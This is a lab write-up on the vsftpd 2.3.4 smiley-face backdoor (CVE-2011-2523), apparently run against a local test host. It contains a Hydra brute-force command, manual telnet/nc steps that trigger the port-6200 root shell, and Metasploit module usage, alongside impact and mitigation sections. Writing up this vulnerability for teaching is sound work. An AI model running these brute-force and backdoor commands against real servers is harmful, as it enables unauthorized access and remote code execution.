

# vsftpd 2.3.4

## Introduction

- vsftpd is an `FTP server` for Unix-like systems, including Linux
- Port: 21 which is the default FTP port.

## Anonymous Login

- There could be some files or directories that are publicly accessible through anonymous users that can leak sensitive data.
- We can FTP login with anonymous user. However, no files, directories or directory traversal found. We also do not have access to write or upload any file.

## Bruteforcing via Hydra

- Default and weak passwords are vulnerable to bruteforce attacks leading to unauthorized access of FTP shares.
- Trying to bruteforce using common usernames and password lists:
	- `hydra 172.16.242.129 ftp -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -t 50`
		- ftp: Specifies the protocol to attack, in this case, FTP.
		- -L : Specifies the path to a file containing a list of usernames to try during the attack.
		- -P : Specifies the path to a file containing a list of passwords to attempt.
		- -t 50: Sets the number of parallel connections (threads) to use for the attack. It is not generally recommanded to use these large number of threads as they can trigger security mechanisms on the target but since this is on our local machine, 50 threads are fine.
- However, bruteforcing lead to no correct credentials that can be used to login via FTP.

## Searchsploit

- SearchSploit is a command-line search tool for Exploit-DB that allows you to take a copy of the Exploit Database with you.
- `searchsploit vsftpd 2.3.4`
	
	

- SearchSploit reveals that there is `Backdoor Command Execution` vulnerability present in vsftpd 2.3.4 version of FTP.

### vsftpd 2.3.4 - Backdoor Command Execution - Smiley [:)] Face backdoor (CVE: 2011-2523)

- The version of vsftpd running on the remote host has been compiled with a backdoor. Attempting to login with a `username containing :)` (a smiley face) triggers the backdoor, which results in a shell listening on TCP `port 6200`. The shell stops listening after a client connects to and disconnects from it. [ Source: https://www.tenable.com/plugins/nessus/55523]
- The source code of this version of vsftpd was modified either through access of distributing website or the distributing server.

- We can see in the if the bytes of the input match `0x3a` [":" from HEX] and `0x29` [")" from HEX], the `vsf_sysutil_extra()` function will get executed.

[backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_017.jpg)

- The `vsf_sysutil_extra()` function contains the following code. We can clearly see that it attempts to open port 6200 through `htons(6200)` and provides a shell with `execl("/bin/sh")` so that attacker can interact with the system.

#### Impact Analysis

- Since this vulnerability starts a backdoor, it gives Remote Code Execution [RCE] and full access of the system as the user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is very high.

#### Proof of Concept

- This vulnerability can be exploited either through Metasploit or manually through an automated script or command line.

- Command Line Exploitation:
	- Connect to FTP using telent or netcat:
		- `telnet 172.16.242.129 21`
		- `USER user_name:)`  # username doesn't matter as long as it contains smiley face [:)]
		- `PASS any_password` # password doesn't matter
		- This should've opened port `6200` on the host machine that runs the backdoor.

		

	- Use telent or netcat to connect on `6200` port backdoor:
		- `nc 172.16.242.129 6200`
		- `id` # verify Connection

		

- Automated Script Exploitation:
	- Script can be downloaded from exploit-db [https://www.exploit-db.com/exploits/49757] or copied from searchsploit tool.
	- Usage:
		- `python3 49757.py <IP_ADDRESS>`

- Metsploit Exploitation:
	- We can use the `exploit/unix/ftp/vsftpd_234_backdoor` exploit from metasploit and gain access through backdoor easily.
		- `use exploit/unix/ftp/vsftpd_234_backdoor` 
	- We can see what all parameters we need to set in order to exploit the machine using:
		- `show options` 

		

	- Set target(s) (RHOSTS):
		- `set RHOSTS <IP_ADDRESS>`
	- Execute the attack using run or exploit command:
		- `exploit`

		

#### Patches and Updates:

- The developers of vsftpd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

#### Mitigation

- Software Integrity and Authenticity Checks using CheckSums and digital signatures.
- Regular updates and stronger credentials.
- Setting up services as non-root user in a sandbox or isolated environment.

## References

- https://www.tenable.com/plugins/nessus/55523
- https://subscription.packtpub.com/book/security/9781786463166/1/ch01lvl1sec18/vulnerability-analysis-of-vsftpd-2-3-4-backdoor
- https://www.exploit-db.com/exploits/49757

## Conclusion

- The examination of the vsftpd 2.3.4 backdoor vulnerability underscores the critical importance of maintaining robust security practices. 
- This vulnerability illustrates how seemingly minor oversights can lead to significant security breaches, enabling unauthorized remote code execution.
- Effective mitigation involves regular updates, stringent software integrity checks, and operating services with minimal privileges.
- This case study highlights the necessity for continuous vigilance and proactive security measures to protect against sophisticated cyber threats.